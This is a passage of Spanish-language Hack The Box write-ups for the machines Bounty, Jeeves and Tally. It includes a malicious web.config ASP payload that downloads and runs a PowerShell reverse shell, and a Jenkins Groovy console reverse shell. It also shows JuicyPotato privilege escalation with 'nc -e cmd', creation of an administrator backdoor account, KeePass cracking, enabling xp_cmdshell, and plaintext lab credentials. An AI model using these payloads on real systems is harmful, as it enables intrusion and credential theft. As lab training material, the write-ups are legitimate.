\end{Shaded}

  Modificamos el fichero PS.ps1 para añadir \texttt{Invoke-PowerShellTcp\ -Reverse\ -IPAddress\ 10.10.14.7\ -Port\ 443} al final del fichero
\item
  Modificamos el web.config para que descarge el fichero PS.ps1 al momento que lo lanzemos.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?xml}\NormalTok{ version="1.0" encoding="UTF-8"}\KeywordTok{?>}
\KeywordTok{<configuration>}
\KeywordTok{<system.webServer>}
    \KeywordTok{<handlers}\OtherTok{ accessPolicy=}\StringTok{"Read, Script, Write"}\KeywordTok{>}
        \KeywordTok{<add}\OtherTok{ name=}\StringTok{"web_config"}\OtherTok{ path=}\StringTok{"*.config"}\OtherTok{ verb=}\StringTok{"*"}\OtherTok{ modules=}\StringTok{"IsapiModule"}\OtherTok{ scriptProcessor=}\StringTok{"%windir%\textbackslash{}system32\textbackslash{}inetsrv\textbackslash{}asp.dll"}\OtherTok{ resourceType=}\StringTok{"Unspecified"}\OtherTok{ requireAccess=}\StringTok{"Write"}\OtherTok{ preCondition=}\StringTok{"bitness64"} \KeywordTok{/>}         
    \KeywordTok{</handlers>}
    \KeywordTok{<security>}
        \KeywordTok{<requestFiltering>}
            \KeywordTok{<fileExtensions>}
            \KeywordTok{<remove}\OtherTok{ fileExtension=}\StringTok{".config"} \KeywordTok{/>}
            \KeywordTok{</fileExtensions>}
            \KeywordTok{<hiddenSegments>}
            \KeywordTok{<remove}\OtherTok{ segment=}\StringTok{"web.config"} \KeywordTok{/>}
            \KeywordTok{</hiddenSegments>}
        \KeywordTok{</requestFiltering>}
    \KeywordTok{</security>}
\KeywordTok{</system.webServer>}
\KeywordTok{</configuration>}
\CommentTok{<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!}
\CommentTok{<%}
\CommentTok{Set co = CreateObject("WScript.Shell")}
\CommentTok{Set cte = co.Exec("cmd /c powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')")}
\CommentTok{output = cte.StdOut.Readall()}
\CommentTok{Response.write(output)}
\CommentTok{%>}
\CommentTok{-->}
\end{Highlighting}
\end{Shaded}
\item
  Uploadeamos el fichero en la web
\item
  Lanzamos un servidor web con pyhton

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Navigamos al url \texttt{http://10.10.10.93/uploadedFiles/web.config}
\end{enumerate}

Y vemos que ganamos accesso al systema

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}

\CommentTok{#Output}
\ExtensionTok{bounty}\NormalTok{\textbackslash{}merlin}
\end{Highlighting}
\end{Shaded}

\hypertarget{privilege-escalation-13}{%
\section*{Privilege Escalation}\label{privilege-escalation-13}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-22}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-22}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{systeminfo}
\FunctionTok{whoami}\NormalTok{ /priv}
\end{Highlighting}
\end{Shaded}

Aqui vemos que tenemos el \texttt{SeImpersonatePrivilege} ;)

Tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe}
\FunctionTok{cp}\NormalTok{ /usr/share/sqlninja/apps/nc.exe}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

En la maquina victima lo descargamos

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}Temp}
\FunctionTok{mkdir}\NormalTok{ privesc}
\BuiltInTok{cd}\NormalTok{ privesc}
\ExtensionTok{iwr}\NormalTok{ -uri http://10.10.14.7/JuicyPotato.exe -OutFile JuicyPotato.exe}
\ExtensionTok{iwr}\NormalTok{ -uri http://10.10.14.7/nc.exe -OutFile nc.exe}
\end{Highlighting}
\end{Shaded}

Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}

Nos connectamos con el servicio nc con el JuicyPotato.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./JuicyPotato.exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe -a }\StringTok{"/c .\textbackslash{}nc.exe -e cmd 10.10.14.7 443"}
\end{Highlighting}
\end{Shaded}

Aqui nos sale une error 10038. Esto suele passar cuando el CLSID no es el correcto. Como savemos con el systeminfo
que estamos en una maquina Windows10 Enterprise, podemos buscar el CLSID correcto en \href{https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md}{Interesting CLSID}
encontramos el CLSID que corresponde y con el parametro \texttt{-c}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./JuicyPotato.exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe -a }\StringTok{"/c .\textbackslash{}nc.exe -e cmd 10.10.14.7 443"}\NormalTok{ -c }\StringTok{"\{5B3E6773-3A99-4A3D-8096-7765DD11785C\}"}
\end{Highlighting}
\end{Shaded}

La reverse shell nos a functionnado y con \texttt{whoami} vemos que ya somos nt authority\system y podemos ver la flag.

\hypertarget{jeeves}{%
\chapter*{Jeeves}\label{jeeves}}
\addcontentsline{toc}{chapter}{Jeeves}

\hypertarget{introduccion-29}{%
\section*{Introduccion}\label{introduccion-29}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 20/08/2021 se llama Jeeves.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=-o1c3s1QKUg}{\includegraphics{https://img.youtube.com/vi/-o1c3s1QKUg/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-29}{%
\section*{Enumeracion}\label{enumeracion-29}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-29}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-29}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-29}{%
\subsubsection*{Ping}\label{ping-29}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.63}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-29}{%
\subsubsection*{Nmap}\label{nmap-29}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.63}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.63 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80,135,445,50000 10.10.10.63 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
80 & http & Web, Fuzzing &\tabularnewline
135 & msrpc & &\tabularnewline
445 & smb & Null session &\tabularnewline
50000 & http & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-el-smb-4}{%
\subsection*{Analyzando el SMB}\label{analyzando-el-smb-4}}
\addcontentsline{toc}{subsection}{Analyzando el SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.63}
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.63 -N}
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.63 -u }\StringTok{'null'}
\end{Highlighting}
\end{Shaded}

Solo hemos podido comprobar que estamos frente a una maquina windows 10 pero poco mas.

\hypertarget{analyzando-la-web-14}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-14}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-22}{%
\subsubsection*{Whatweb}\label{whatweb-22}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.63}
\end{Highlighting}
\end{Shaded}

Estamos en frente de un IIS

\hypertarget{analyzando-la-web-con-firefox-4}{%
\subsubsection*{Analyzando la web con Firefox}\label{analyzando-la-web-con-firefox-4}}
\addcontentsline{toc}{subsubsection}{Analyzando la web con Firefox}

Vemos una pagina de busqueda typo Google.

Buscando en internet vemos una routa potencial que seria \texttt{/askjeeves/} pero no nos da en este caso

Intentamos ver lo que hay en el puerto \textbf{50000} y tenemos un 404. Si le ponemos el \texttt{/askjeeves/}, llegamos en
un panel de administration de Jenkins.

\hypertarget{vulnerability-assessment-16}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-16}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{vulnerabilidad-jenkins}{%
\subsection*{Vulnerabilidad Jenkins}\label{vulnerabilidad-jenkins}}
\addcontentsline{toc}{subsection}{Vulnerabilidad Jenkins}

Teniendo accesso al panel de administracion de Jenkins es un problema ademas si hay en el menu el boton Administrar Jenkins.
Aqui es el caso.

Pinchamos a Administrar Jenkins y despues le damos a Consola de scripts.

Aqui podemos crear Groovy script

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{command}\NormalTok{ = }\StringTok{"whoami"}
\ExtensionTok{println}\NormalTok{(command.execute()}\ExtensionTok{.text}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

Si ejecutamos el commando vemos en la respuesta \texttt{jeeves\textbackslash{}kohsuke}. Vemos con esto que tenemos capacidad de RCE.

\hypertarget{vuln-exploit-gaining-access-16}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-16}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-jenkins-consola-de-scripts}{%
\subsection*{Ganando accesso con Jenkins Consola de scripts}\label{ganando-accesso-con-jenkins-consola-de-scripts}}
\addcontentsline{toc}{subsection}{Ganando accesso con Jenkins Consola de scripts}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Descargamos Nishang y modificamos el fichero de reverse shell por tcp

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/samratashok/nishang}
\BuiltInTok{cd}\NormalTok{ nishang/Shells}
\FunctionTok{cp}\NormalTok{ Invoke-PowerShellTcp.ps1 ../../PS.ps1}
\BuiltInTok{cd}\NormalTok{ ../..}
\FunctionTok{nano}\NormalTok{ PS.ps1}
\end{Highlighting}
\end{Shaded}

  Modificamos el fichero PS.ps1 para añadir \texttt{Invoke-PowerShellTcp\ -Reverse\ -IPAddress\ 10.10.14.7\ -Port\ 443} al final del fichero
\item
  Compartimos un servicio http con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Creamos el Groovy script

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{command}\NormalTok{ = }\StringTok{"powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')"}
\ExtensionTok{println}\NormalTok{(command.execute()}\ExtensionTok{.text}\NormalTok{)}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya hemos ganado accesso al systema. \texttt{whoami} -\textgreater{} **jeeves\kohsuke**. Ya podemos leer la flag.

\hypertarget{privilege-escalation-14}{%
\section*{Privilege Escalation}\label{privilege-escalation-14}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-23}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-23}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{systeminfo}
\FunctionTok{whoami}\NormalTok{ /priv}
\end{Highlighting}
\end{Shaded}

Aqui vemos que tenemos el \texttt{SeImpersonatePrivilege} ;)

Tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe}
\FunctionTok{cp}\NormalTok{ /usr/share/sqlninja/apps/nc.exe}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

En la maquina victima lo descargamos

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}Temp}
\FunctionTok{mkdir}\NormalTok{ privesc}
\BuiltInTok{cd}\NormalTok{ privesc}
\ExtensionTok{iwr}\NormalTok{ -uri http://10.10.14.7/JuicyPotato.exe -OutFile JuicyPotato.exe}
\end{Highlighting}
\end{Shaded}

Nos creamos un nuevo usuario con el JuicyPotato.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./JuicyPotato.exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe -a }\StringTok{"/c net user s4vitar s4vitar1234}\VariableTok{$!}\StringTok{ /add"}
\ExtensionTok{./JuicyPotato.exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe -a }\StringTok{"/c net localgroup Administrators s4vitar /add"}
\end{Highlighting}
\end{Shaded}

Si comprobamos con el commando \texttt{crackmapexec\ smb\ 10.10.10.63\ -u\ \textquotesingle{}s4vitar\textquotesingle{}\ -p\ \textquotesingle{}s4vitar1234\$!\textquotesingle{}} Vemos que el usuario no esta pwned.
Aqui tenemos que

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./JuicyPotato.exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe -a }\StringTok{"/c net share attacker_folder=C:\textbackslash{}Windows\textbackslash{}Temp /GRANT:Administrators,FULL"}
\ExtensionTok{./JuicyPotato.exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe -a }\StringTok{"/c reg add HKLM\textbackslash{}Software\textbackslash{}Microsoft\textbackslash{}CurrentVersion\textbackslash{}Policies\textbackslash{}System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"}
\end{Highlighting}
\end{Shaded}

Si comprobamos otra vez con crackmapexec, vemos ahora que el usuario s4vitar esta pwned.
Ya nos podemos connectar con psexec

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-psexec}\NormalTok{ WORKGROUP/s4vitar@10.10.10.63 cmd.exe}
\ExtensionTok{Password}\NormalTok{: s4vitar1234}\VariableTok{$!}

\FunctionTok{whoami}

\CommentTok{#Output}
\ExtensionTok{nt}\NormalTok{ authority\textbackslash{}system}

\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Users\textbackslash{}Adminstrator\textbackslash{}Desktop}
\FunctionTok{dir}
\BuiltInTok{type}\NormalTok{ hm.txt}
\end{Highlighting}
\end{Shaded}

Aqui nos dice que la flag no esta aqui. Pensamos a Alternative Data Streams.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{dir}\NormalTok{ /r}
\FunctionTok{more} \OperatorTok{<}\NormalTok{ hm.txt:root.txt}
\end{Highlighting}
\end{Shaded}

;)

\hypertarget{tally}{%
\chapter*{Tally}\label{tally}}
\addcontentsline{toc}{chapter}{Tally}

\hypertarget{introduccion-30}{%
\section*{Introduccion}\label{introduccion-30}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 20/08/2021 se llama Tally.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=zcdqHfdxIZI}{\includegraphics{https://img.youtube.com/vi/zcdqHfdxIZI/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-30}{%
\section*{Enumeracion}\label{enumeracion-30}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-30}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-30}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-30}{%
\subsubsection*{Ping}\label{ping-30}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.59}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-30}{%
\subsubsection*{Nmap}\label{nmap-30}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.59}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.59 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p21,80,81,135,139,445,808,1433,5985,15567,32843,32844,32846,47001,49664,49665,49666,49667,49668,49669,49670 10.10.10.59 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
21 & ftp & Conexion como Anonymous &\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
81 & http & Web, Fuzzing &\tabularnewline
135 & msrpc & &\tabularnewline
139 & netbios & &\tabularnewline
445 & smb & Null session &\tabularnewline
808 & ccproxy-http? & &\tabularnewline
1433 & ms-sql-s & &\tabularnewline
5985 & WinRM & evil-winrm & credenciales\tabularnewline
15567 & http & Web, Fuzzing &\tabularnewline
32843 & mc-nmf & Puertos por defecto de windows &\tabularnewline
32844 & mc-nmf & Puertos por defecto de windows &\tabularnewline
32846 & mc-nmf & Puertos por defecto de windows &\tabularnewline
47001 & http & Puertos por defecto de windows &\tabularnewline
49664 & msrpc & Puertos por defecto de windows &\tabularnewline
49665 & msrpc & Puertos por defecto de windows &\tabularnewline
49666 & msrpc & Puertos por defecto de windows &\tabularnewline
49667 & msrpc & Puertos por defecto de windows &\tabularnewline
49668 & msrpc & Puertos por defecto de windows &\tabularnewline
49669 & msrpc & Puertos por defecto de windows &\tabularnewline
49670 & msrpc & Puertos por defecto de windows &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{conexion-anonymous-con-ftp-1}{%
\subsection*{Conexion Anonymous con ftp}\label{conexion-anonymous-con-ftp-1}}
\addcontentsline{toc}{subsection}{Conexion Anonymous con ftp}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.59}

\ExtensionTok{Name}\NormalTok{: anonymous}
\ExtensionTok{Password}\NormalTok{: }

\ExtensionTok{User}\NormalTok{ cannot login}
\end{Highlighting}
\end{Shaded}

El usuario anonymous no esta habilitado.

\hypertarget{analyzando-el-smb-5}{%
\subsection*{Analyzando el SMB}\label{analyzando-el-smb-5}}
\addcontentsline{toc}{subsection}{Analyzando el SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.59}
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.59 -N}
\end{Highlighting}
\end{Shaded}

Vemos que estamos en frente de una maquina Windows Server 2016 Standard de 64 bit pro que se llama \textbf{TALLY} en el dominio \textbf{TALLY}.
No podemos connectarnos con un NULL Session.

\hypertarget{analyzando-la-web-15}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-15}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-23}{%
\subsubsection*{Whatweb}\label{whatweb-23}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.59}
\end{Highlighting}
\end{Shaded}

Nos enfrentamos a un Microsoft Sharepoint con un IIS 10.0

\hypertarget{analyzando-la-web-con-firefox-5}{%
\subsubsection*{Analyzando la web con Firefox}\label{analyzando-la-web-con-firefox-5}}
\addcontentsline{toc}{subsubsection}{Analyzando la web con Firefox}

Entramos en un panel Sharepoint y vemos en la url que hay un \texttt{\_layouts}

Buscamos en google por la palabra \texttt{sharepoint\ pentest\ report} y encontramos la web de \href{https://pentest-tools.com/public/sample-reports/sharepoint-scan-sample-report.pdf}{pentest-tool}. Esto

\hypertarget{vulnerability-assessment-17}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-17}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{sharepoint-_layouts}{%
\subsection*{\texorpdfstring{Sharepoint \texttt{\_layouts}}{Sharepoint \_layouts}}\label{sharepoint-_layouts}}
\addcontentsline{toc}{subsection}{Sharepoint \texttt{\_layouts}}

El enlaze de la pagina web es un reporte donde se pueden ver routas interesantes detectadas durante un processo de auditoria.

\begin{itemize}
\tightlist
\item
  \url{http://sharepointtarget.com//_layouts/viewlsts.aspx}
\item
  \url{http://sharepointtarget.com//_layouts/userdisp.aspx}
\item
  \url{http://sharepointtarget.com//_layouts/userdisp.aspx?ID=1}
\item
  \url{http://sharepointtarget.com//_layouts/aclinv.aspx}
\item
  \url{http://sharepointtarget.com//_layouts/bpcf.aspx}
\item
  \url{http://sharepointtarget.com//_layouts/groups.aspx}
\item
  \url{http://sharepointtarget.com//_layouts/help.aspx}
\item
  \url{http://sharepointtarget.com//_layouts/mcontent.aspx}
\item
  \url{http://sharepointtarget.com//_layouts/mobile/mbllists.aspx}
\item
  \url{http://sharepointtarget.com//_layouts/people.aspx?MembershipGroupId=0}
\item
  \url{http://sharepointtarget.com//_layouts/recyclebin.aspx}
\item
  \url{http://sharepointtarget.com//_layouts/spcf.aspx}
\end{itemize}

Si vamos a la url \texttt{http://10.10.10.59/\_layouts/viewlsts.aspx} ya vemos cosas interesantes. Si pinchamos en Shared Documents podemos ver un documento
llamado ftp-details y si pinchamos en Site Pages vemos un fichero FinanceTeam. Nos los descargamos.

Si abrimos el fichero \texttt{ftp-details.docx} con libre office vemos una contraseña. Si miramos la pagina FinanceTeam, vemos un mensaje donde podemos ver
usuarios potenciales y un ftp account name.

\hypertarget{conneccion-con-ftp}{%
\subsection*{Conneccion con FTP}\label{conneccion-con-ftp}}
\addcontentsline{toc}{subsection}{Conneccion con FTP}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.59}
\ExtensionTok{Name}\NormalTok{: ftp_user}
\ExtensionTok{Password}\NormalTok{: UTDRSCH3c}\StringTok{"}\VariableTok{$6}\StringTok{hys}
\end{Highlighting}
\end{Shaded}

Hemos podido authenticarnos. Si le damos a \texttt{dir} vemos muchos directorios. Si es el caso, S4vi nos propone usar de la Heramienta \texttt{curlftpfs} para montarnos
una montura por ftp

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{apt}\NormalTok{ install curlftpfs}
\FunctionTok{mkdir}\NormalTok{ /mnt/ftp}
\ExtensionTok{curlftpfs}\NormalTok{ ftp_user:}\StringTok{'UTDRSCH3c"$6hys'}\NormalTok{@10.10.10.59 /mnt/ftp}
\BuiltInTok{cd}\NormalTok{ /mnt/ftp}
\ExtensionTok{tree}
\end{Highlighting}
\end{Shaded}

Aqui vemos un fichero \texttt{tim.kdbx}. Es interesante porque los ficheros \textbf{KDBX} son ficheros KeePass y suelen tener informaciones interesantes como contraseñas.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cp}\NormalTok{ User/Tim/Files/tim.kdbx /home/s4vitar/Desktop/S4vitar/Tally/content/.}
\BuiltInTok{cd}\NormalTok{ !$}
\FunctionTok{chmod}\NormalTok{ 644 tim.kdbx}
\ExtensionTok{apt}\NormalTok{ install keepassxc}
\end{Highlighting}
\end{Shaded}

Si lanzamos el KeePassxc y que le damos a abrir una base de datos existente, buscamos el fichero \texttt{tim.kdbx} vemos que nos pide una contraseña.
En este caso bamos a lanzar un keepass2john para crackear la contraseña.

\hypertarget{crackeando-un-fichero-kdbx-con-keepass2john}{%
\subsection*{Crackeando un fichero KDBX con keepass2john}\label{crackeando-un-fichero-kdbx-con-keepass2john}}
\addcontentsline{toc}{subsection}{Crackeando un fichero KDBX con keepass2john}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{keepass2john}\NormalTok{ tim.kdbx }\OperatorTok{>}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

Ya tenemos la contraseña. Podemos abrir el fichero KDBX con Keepassxc y aqui ya encontramos una credencial por el usuario Finance.
Vamos a checkear los recursos compartidos a nivel de red con este usuario.

\hypertarget{smb}{%
\subsection*{SMB}\label{smb}}
\addcontentsline{toc}{subsection}{SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.59 -U }\StringTok{"Finance%Acc0unting"}
\ExtensionTok{smbclient}\NormalTok{ //10.10.10.59/ACCT -U }\StringTok{"Finance%Acc0unting"}\NormalTok{ -c }\StringTok{"dir"}
\end{Highlighting}
\end{Shaded}

Tenemos accesso a un nuevo directorio pero contiene muchos otros directorios. Nos creamos otra montura

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mkdir}\NormalTok{ /mnt/smb}
\FunctionTok{mount}\NormalTok{ -t cifs //10.10.10.59/ACCT /mnt/smb -o username=Finance,password=Acc0unting,domain=WORKGROUP,rw}
\BuiltInTok{cd}\NormalTok{ /mnt/smb}
\ExtensionTok{tree}
\end{Highlighting}
\end{Shaded}

Aqui vemos que hay ficheros ejecutables en la carpeta \texttt{zz\_Migration/Binaries/New\ Folder/} y un binario llamado \texttt{tester.exe} nos
llama la attencion.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cp} \StringTok{"/mnt/smb/zz_Migration/Binaries/New Folder/tester.exe"}\NormalTok{ /home/s4vitar/Desktop/content}
\BuiltInTok{cd}\NormalTok{ /home/s4vitar/Desktop/content}
\FunctionTok{file}\NormalTok{ tester.exe}
\end{Highlighting}
\end{Shaded}

Vemos que es un ejecutable windows. Lo vamos a analyzar con radare2 para saber lo que hace a bajo nivel

\hypertarget{exe-analysis-con-radare2}{%
\subsection*{EXE analysis con radare2}\label{exe-analysis-con-radare2}}
\addcontentsline{toc}{subsection}{EXE analysis con radare2}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{radare2}\NormalTok{ tester.exe}
\OperatorTok{>} \ExtensionTok{aaa}
\OperatorTok{>} \ExtensionTok{s}\NormalTok{ main}
\OperatorTok{>} \ExtensionTok{pdf}
\end{Highlighting}
\end{Shaded}

Bueno aqui podemos ver un usuario y una contraseña para la base de datos MS-SQL

\begin{quote}
{[} ! {]}NOTAS: tambien se podria usar el commando \texttt{strings\ tester.exe\ \textbar{}\ grep\ "PWD"\ \textbar{}\ tr\ \textquotesingle{};\textquotesingle{}\ \textquotesingle{}\textbackslash{}n\textquotesingle{}\ \textbar{}\ batcat}
\end{quote}

\hypertarget{conneccion-a-la-base-de-datos}{%
\subsection*{Conneccion a la base de datos}\label{conneccion-a-la-base-de-datos}}
\addcontentsline{toc}{subsection}{Conneccion a la base de datos}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{sqsh}\NormalTok{ -S 10.10.10.59 -U }\StringTok{'sa'}
\ExtensionTok{password}\NormalTok{: ********}
\end{Highlighting}
\end{Shaded}

Es valida y estamos connectado a la base de datos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{xp_cmdshell} \StringTok{"whoami"}
\ExtensionTok{go}
\end{Highlighting}
\end{Shaded}

El commando xp\_cmdshell a sido desactivado. Vamos a activar la possiblidad de ejecutar commandos.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{sp_configure} \StringTok{"show advanced options"}\NormalTok{, 1}
\ExtensionTok{reconfigure}
\ExtensionTok{go}

\ExtensionTok{sp_configure} \StringTok{"xp_cmdshell"}\NormalTok{, 1}
\ExtensionTok{reconfigure}
\ExtensionTok{go}
\end{Highlighting}
\end{Shaded}

Ya podemos ejectuar commandos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{xp_cmdshell} \StringTok{"whoami"}
\ExtensionTok{go}

\CommentTok{#Output}
\ExtensionTok{tally}\NormalTok{\textbackslash{}sarah}
\end{Highlighting}
\end{Shaded}

